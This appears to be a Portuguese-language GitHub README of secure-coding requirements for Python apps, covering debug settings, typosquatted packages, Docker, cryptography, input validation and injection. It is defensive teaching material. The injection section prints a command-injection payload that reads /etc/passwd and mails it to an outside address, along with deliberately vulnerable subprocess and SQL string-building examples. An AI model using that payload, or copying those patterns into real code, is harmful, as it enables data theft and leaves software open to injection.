



<h1>
    
    <strong>Requisitos de Segurança em Aplicações Python</strong> 
</h1>

## Conteúdo

* [Versão](#version)
* [Depuração](#debug)
* [Pacotes envenenados](#package-poisoned)
* [Container](#container)
* [Criptografia](#cryptography)
* [Validação](#validation)
* [Injeção de entrada](#injection)
- - -

    <h3>
        
        <strong>Versão</strong>
    </h3>
    

       Python 3 foi lançado em dezembro de 2008, versões mais antigas do Python não é recomendada no quesito segurança, o problema com isso é que o python 2.7 por ser um projeto obsoleto e não ter as mesmas atualizações de segurança que o python 3.
    

<table width:"100%">
  <thead>
    <tr>
      <th colspan="2" style="text-align: center">Requisito</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td width="40px"></td>
      <td><strong>Utilize</strong> a versão mais recente do python em novos projetos.</td>
    </tr>
      <tr>
      <td width="40px"></td>
      <td><strong>Mantenha</strong> os projetos legados atualizados com as novas versões.</td>
    </tr>
  </tbody>
<table>

- - -

    <h3>
        
        <strong>Depuração</strong>
    </h3>
    

      Para alguns framework Python, como Django, o debug é definido como true por padrão em novos projetos. Isso é útil no desenvolvimento para mostrar erros no código, mas não é recomendado para aplicações no ambiente de produção. Exibir erros publicamente pode mostrar uma fraqueza em nossa segurança que pode ser explorada.
    

<table width:"100%">
  <thead>
    <tr>
      <th colspan="2" style="text-align: center">Requisito</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td width="40px"></td>
      <td><strong>Desabilitar</strong> o debug para aplicações em ambiente de produção ou que estejam exposta para o mundo.</td>
    </tr>
  </tbody>
<table>

- - -

 <h3>
        
        <strong>Pacotes envenenados</strong>
    </h3>
    

       Python tem várias bibliotecas impressionantes que são fáceis de instalar por meio do Pip, essa facilidade pode ser um problema de segurança grave.
 

 

 <i>
 Qual é a diferença entre esses dois pacotes?

 - urllib3
 - urlib3
 
 Com a pergunta você prestou mais atenção, certo? e viu que existe um "l" a menos na segunda opção, isso pode passar despercebido no dia a dia e ter implicações gravíssimas, como abrir uma backdoor, vazar credenciais e até mesmo o comprometimento total do ambiente.
 </i>

    
<table width:"100%">
  <thead>
    <tr>
      <th colspan="2" style="text-align: center">Requisito</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td width="40px"></td>
      <td><strong>Verifique</strong> sempre o nome da biblioteca antes de fazer a instalação.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Na dúvida</strong> não instale a biblioteca, peça a um AppSec para fazer uma análise completa para encontrar possíveis problemas de segurança.</td>
    </tr>
     <tr>
      <td width="40px"></td>
      <td><strong>Mantenha</strong> as bibliotecas atualizadas, geralmente essas atualizações contêm correções para vulnerabilidades conhecidas.</td>
    </tr>
  </tbody>
<table>

- - -

    <h3>
        
        <strong>Container</strong>
    </h3>
    

      Mesmo a aplicação estando em um container é recomendo seguir algumas boas praticas de segurança. 
    

<table width:"100%">
  <thead>
    <tr>
      <th colspan="2" style="text-align: center">Requisito</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td width="40px"></td>
      <td><strong>Não</strong> rode a aplicação como root.</td>
    </tr>
      <tr>
      <td width="40px"></td>
      <td><strong>Configurar</strong> o .dockerignore para evitar que sua imagem contenha arquivos indesejados.</td>
 </tr>
  </tbody>
<table>

<h3 style="font-weight:bold">Exemplos</h3>

#### Arquivos indesejados no .dockerignore:

- Sistemas de controle de versão
- Arquivos temporários
- Dados sensíveis
- Logs locais
- Configurações de projeto
- Cache
- Testes

#### .dockerignore:
<pre>
.git
.gitignore
*.pyc
*.swp
.idea
temp/
logs/
tests/
</pre>

- - -

 <h3>
        
        <strong>Criptografia</strong>
    </h3>
    

      A criptografia é um componente essencial quando se trata da proteção dos dados. É também uma categoria em que as coisas podem dar muito errado, especialmente quando as convenções e padrões não são seguidos.
 

    
<table width:"100%">
  <thead>
    <tr>
      <th colspan="2" style="text-align: center">Requisito</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td width="40px"></td>
      <td><strong>Nunca</strong> crie seu sistema criptográfico: use aqueles já existentes.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Entenda</strong> o que são as criptografias simétrica e assimétrica.</td>
    </tr>
     <tr>
      <td width="40px"></td>
      <td><strong>Prefira</strong> AES na criptografia simétrica.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Prefira</strong> usar o RSA ou algum algoritmo baseado em ECC, como ECDSA ou Ed25519 na criptografia assimétrica.</td>
    </tr>
     <tr>
      <td width="40px"></td>
      <td><strong>Entenda</strong> o que são hashes e hashes autenticados.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Prefira</strong> usar o algoritmo de hash SHA-2 --digest >= 256 bits-- em vez do MD5 ou SHA-1.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Prefira</strong> os modos CBC ou CTR em vez do ECB em cifras de bloco.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Entenda</strong> que criptografia é diferente de codificação.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Use</strong> implementações de código-aberto1 e amplamente testadas dos algoritmos criptográficos, em vez de fazê-las por conta própria.
    </td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Utilize</strong> bibliotecas que requeiram o mínimo de intervenção do programador
    </td>
    </tr>
     <tr>
      <td width="40px"></td>
      <td><strong>Nunca</strong> utilize criptografia para senhas, utilize algum sistema de hashing, como o bcrypt com salt.
    </td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Não utilize</strong> criptografia simétrica com chaves fixas no código fonte como único método de criptografia;</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Utilize</strong> implementações comprovadas de primitivas criptográficas, como: <i>SHA-256</i>, <i>AES</i>, <i>RSA</i>, entre outras;</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Utilize</strong> primitivas criptográficas que são apropriadas para o caso de uso em questão, configurado com parâmetros que são aderentes às melhores práticas da indústria;</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Não utilize</strong> protocolos criptográficos ou algoritmos que são considerados amplamente obsoletos para uso em segurança, como: <i>SHA-1</i>, <i>MD5</i>, entre outros;</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Não utilize</strong> a mesma chave criptográfica para vários fins;</td>
    </tr>
  </tbody>
<table>

<h3 style="font-weight:bold">Exemplos</h3>

#### Analogia sobre criptografia e hashing

 Nesta analogia podemos ver que o processo de hashing não deve ser possível a decodificação da mensagem, diferente do processo de criptografia onde é possível descriptografar a mensagem por completo.

  

- - -

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [ECB](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Electronic_Codebook_.28ECB.29)

* [CTR](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_.28CTR.29)

* [CBC](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_Block_Chaining_.28CBC.29)

* [RSA](https://en.wikipedia.org/wiki/RSA_(cryptosystem))

* [ECDSA](https://en.wikipedia.org/wiki/RSA_(cryptosystem))

* [ECC](https://en.wikipedia.org/wiki/Elliptic-curve_cryptography)

* [Ed25519](https://ed25519.cr.yp.to/)

* [Hashes](https://en.wikipedia.org/wiki/Hash_function)

* [Hashes autenticados](https://en.wikipedia.org/wiki/HMAC)

* [Criptografia simétrica](https://en.wikipedia.org/wiki/Symmetric-key_algorithm) 

* [Criptografia assimétrica](https://en.wikipedia.org/wiki/Public-key_cryptography)

* [Hashing vs. Criptografia vs. Codificação vs. Ofuscação](https://danielmiessler.com/study/encoding-encryption-hashing-obfuscation/)

</i>

- - -

 <h3>
    
    <strong>Validação</strong>
</h3>

  Uma aplicação web tem como principal porta de entrada os endpoint, onde é possível que um usuário mal intencionado envie payloads maliciosos com a intenção de derrubar, extrair informações e até mesmo obter o acesso total ao ambiente.

<table width:"100%">
  <thead>
    <tr>
      <th colspan="2" style="text-align: center">Requisito</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td width="40px"></td>
      <td><strong>Valide</strong> todos os dados de entrada adequadamente, tratando com atenção caracteres especiais, como aspas simples e duplas.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Limite</strong> os ranges nos campos de entrada de dados do programa --e.g., um campo para CPF não deveria permitir o envio de 1024 caracteres.</td>
    </tr>
     <tr>
      <td width="40px"></td>
      <td><strong>Validações</strong> no lado cliente devem ser refeitas no servidor.</td>
    </tr>
   <tr>
      <td width="40px"></td>
      <td><strong>Considere</strong> como dados de entrada: cabeçalhos HTTP, parâmetros para métodos GET/POST, cookies e arquivos.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Parametrize</strong> consultas SQL, use um ORM ou utilize de stored procedures.</td>
    </tr>
  </tbody>
<table>

- - -

 <h3>
        
        <strong>Injeção de entrada</strong>
    </h3>
    

      Os ataques de injeção são amplos e muito comuns e existem muitos tipos de injeção. Eles afetam todas as linguagens, estruturas e ambientes.
 

 

 <i>
 Tipos de injeção mais comuns:

 - Injeção de SQL
 - injeção de comando
 </i>

    
<table width:"100%">
  <thead>
    <tr>
      <th colspan="2" style="text-align: center">Requisito</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td width="40px"></td>
      <td><strong>Sanitize</strong> a entrada usando os utilitários fornecidos com a estrutura da Web.</td>
    </tr>
    <tr>
      <td width="40px"></td>
      <td><strong>Não construa</strong> consultas SQL manualmente. A maioria dos ORMs incorporou métodos de sanitização.</td>
    </tr>
     <tr>
      <td width="40px"></td>
      <td><strong>Utilize</strong> a biblioteca <i>shlex</i> ou similar quando precisar executar comandos em <i>subprocess()</i>, <i>eval()</i>.</td>
    </tr>
  </tbody>
<table>
<h3><strong>Exemplos</strong></h4>
 

#### Injeção de comando:

<pre>
import subprocess 

def transcode_file(request, filename): 
  command = 'ffmpeg -i "{source}" output_file.mpg'.format(source = filename) 
  subprocess.call(command, shell = True) # a bad idea! 
</pre>

O atacante define o nome do arquivo como no exemplo abaixo ou algo igualmente perigoso. <pre>"; cat /etc/passwd | mail gameover@0x00.com </pre>

#### Injeção de SQL:

<pre>
cursor.execute("SELECT admin FROM users WHERE username = '" + username + '");
cursor.execute("SELECT admin FROM users WHERE username = '%s' % username);
cursor.execute("SELECT admin FROM users WHERE username = '{}'".format(username));
cursor.execute(f"SELECT admin FROM users WHERE username = '{username}'");
</pre>

- - -

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [SHlex — Simple lexical analysis](https://docs.python.org/3/library/shlex.html#shlex.quote)

* [The Command Injection Series](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)

* [Preventing SQL Injection Attacks With Python](https://realpython.com/prevent-python-sql-injection/)

</i>

- - -

<h4><strong>Créditos</strong></h4>
<i>

* [O Tao do Desenvolvimento Seguro](https://github.com/lopes/seguranca)

* [Poison Packages in Python](https://blog.sqreen.com/poison-packages-in-python/)

* [Top 10 Python security best practices](https://blog.sqreen.com/top-10-python-security-best-practices/)

* [Dicas para criar uma boa imagem Docker com Python](https://www.reimberg.io/dicas-para-criar-uma-boa-imagem-docker-com-python/)

* [10 pegadinhas comuns de segurança em Python e como evitá-las](https://www.agatetepe.com.br/10-pegadinhas-comuns-de-seguranca-em-python-e-como-evita-las/?amp)

</i>

- - -

<h2>Licenças</h2>

    
Icons made by <a href="https://www.flaticon.com/authors/freepik" title="Freepik">Freepik</a> and <a href="https://www.flaticon.com/authors/flat-icons" title="Flat Icons">Flat Icons</a> from <a href="https://www.flaticon.com/" title="Flaticon">www.flaticon.com</a>

